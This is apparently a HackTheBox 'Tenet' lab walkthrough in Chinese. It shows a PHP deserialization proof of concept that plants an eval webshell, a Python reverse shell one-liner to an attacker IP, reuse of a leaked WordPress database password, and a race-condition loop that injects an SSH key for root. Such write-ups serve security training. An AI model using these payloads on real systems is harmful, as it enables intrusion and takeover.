 # HackTheBox-Tenet

  
  
&lt;!--more--&gt;  
```bash  
sudo nmap --min-rate 10000 -A -sS 10.129.210.162  
  
Host is up (0.15s latency).  
Not shown: 998 closed tcp ports (reset)  
PORT   STATE SERVICE VERSION  
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)  
| ssh-hostkey:   
|   2048 cc:ca:43:d4:4c:e7:4e:bf:26:f4:27:ea:b8:75:a8:f8 (RSA)  
|   256 85:f3:ac:ba:1a:6a:03:59:e2:7e:86:47:e7:3e:3c:00 (ECDSA)  
|_  256 e7:e9:9a:dd:c3:4a:2f:7a:e1:e0:5d:a2:b0:ca:44:a8 (ED25519)  
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))  
|_http-title: Apache2 Ubuntu Default Page: It works  
Device type: firewall  
Running (JUST GUESSING): Fortinet embedded (94%)  
OS CPE: cpe:/h:fortinet:fortigate_100d  
Aggressive OS guesses: Fortinet FortiGate 100D firewall (94%), Fortinet FortiGate-50B or 310B firewall (89%)  
No exact OS matches for host (test conditions non-ideal).  
Network Distance: 2 hops  
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel  
  
TRACEROUTE (using port 80/tcp)  
HOP RTT       ADDRESS  
1   367.08 ms 10.10.16.1  
2   367.04 ms 10.129.210.162  
  
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .  
Nmap done: 1 IP address (1 host up) scanned in 119.63 seconds  
```  
`80`端口存在一个`Apache`默认页面  
利用`dirsearch`扫描，扫描到一个`wordpress`目录  
将域名添加到`host 10.129.210.162 tenet.htb`  
通过网站文章得知  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202404162151396.png)
存在`sator.php.bak`文件  
```php  
&lt;?php  
  
class DatabaseExport  
{  
	public $user_file = &#39;users.txt&#39;;  
	public $data = &#39;&#39;;  
  
	public function update_db()  
	{  
		echo &#39;[&#43;] Grabbing users from text file &lt;br&gt;&#39;;  
		$this-&gt; data = &#39;Success&#39;;  
	}  
  
  
	public function __destruct()  
	{  
		file_put_contents(__DIR__ . &#39;/&#39; . $this -&gt;user_file, $this-&gt;data);  
		echo &#39;[] Database updated &lt;br&gt;&#39;;  
	//	echo &#39;Gotta get this working properly...&#39;;  
	}  
}  
  
$input = $_GET[&#39;arepo&#39;] ?? &#39;&#39;;  
$databaseupdate = unserialize($input);  
  
$app = new DatabaseExport;  
$app -&gt; update_db();  
  
  
?&gt;  
```  
很明显存在反序列化漏洞  
构造`poc`  
```php  
&lt;?php  
  
class DatabaseExport  
{  
	public $user_file = &#39;users.txt&#39;;  
	public $data = &#39;&#39;;  
  
    public function __construct(){  
        $this-&gt;user_file=&#34;shell.php&#34;;  
        $this-&gt;data=&#34;&lt;?php eval(\$_REQUEST[1]);?&gt;&#34;;  
    }  
}  
$o = new DatabaseExport();  
echo urlencode(serialize($o));  
  
?&gt;  
```  
访问`shell.php`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202404162157835.png)
利用`python3`反弹`shell`  
`?1=system(&#39;export RHOST=&#34;10.10.16.6&#34;;export RPORT=1234;python3 -c \&#39;import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv(&#34;RHOST&#34;),int(os.getenv(&#34;RPORT&#34;))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn(&#34;/bin/bash&#34;)\&#39;&#39;);`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202404162201096.png)
收集数据库账号和密码  
```php  
define( &#39;DB_NAME&#39;, &#39;wordpress&#39; );  
  
/** MySQL database username */  
define( &#39;DB_USER&#39;, &#39;neil&#39; );  
  
/** MySQL database password */  
define( &#39;DB_PASSWORD&#39;, &#39;Opera2112&#39; );  
  
/** MySQL hostname */  
define( &#39;DB_HOST&#39;, &#39;localhost&#39; );  
  
/** Database Charset to use in creating database tables. */  
define( &#39;DB_CHARSET&#39;, &#39;utf8mb4&#39; );  
```  
通过`/etc/passwd`得知存在`neil`账户，利用密码复用  
成功登陆  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202404162204331.png)
打开`user.txt`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202404162205224.png)
`sudo -l`查看一下权限  
```  
Matching Defaults entries for neil on tenet:  
    env_reset, mail_badpass,  
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:  
  
User neil may run the following commands on tenet:  
    (ALL : ALL) NOPASSWD: /usr/local/bin/enableSSH.sh  
```  
可以`root`权限运行`/usr/local/bin/enableSSH.sh`文件  
文件的大概代码逻辑就是向`tmp`目录中写入公钥文件名为`tmp-xxx`接着在写入到`/root/.ssh/authorized_keys`中，  
这里利用条件竞争写入，先本地生成密钥后写入  
```bash  
while true  
do  
echo &#39;ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDBi/2i5Ihf1Lov/drxsMhcW6JC3&#43;I1kYSyBwFLfjxjZU&#43;g31osMQA9OD6FqLbCZY02jNCdrp2lZScRHGIjzLixG&#43;zu5mUdQ4HIEuZ9xU8alaVtgPYocBSgLaB/A/&#43;7B9Tws/30aEw8PXa0Dpiku0j7q84Rx2oIAV41WSZjmEaIhs01Wmai3kDnFzrjiZFA1gaq0TH&#43;QzR0EYllYKbPqQScSQc2WPPlawcp&#43;EHIEMooH&#43;3EAPO9BDcORxMRM8nCfEFXKYPMeSXsb7nfCr1C/ERKTQ85DK0pY9C&#43;URS8jjntti8BInStiBi24mSNHo2HEhPkHc0zGBga5VPiiRXRggZGISjx5rvn3182RujljlJX/lRIKLpKzcpFqXavDChCXfBaEz1qBAMSimfaMTrijzLKTW62x4KsvhZo0BgWowJxjXA1kI/mmOuYrmI3Gglh40M/hexcvLQjvPQvoCYtdqKSRgOwti8XdYHz/gnpEIjDBAW2bH3hUNZPcfag9AZIiek= root@ubuntu&#39;|tee /tmp/ssh-*  
done  
```  
接着运行`/usr/local/bin/enableSSH.sh`文件  
`ssh root@10.129.210.162 -p 22 -i id_rsa`  
成功登陆  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202404162247477.png)

---

> Author: N1Rvana  
> URL: http://localhost:1313/hackthebox-tenet/  

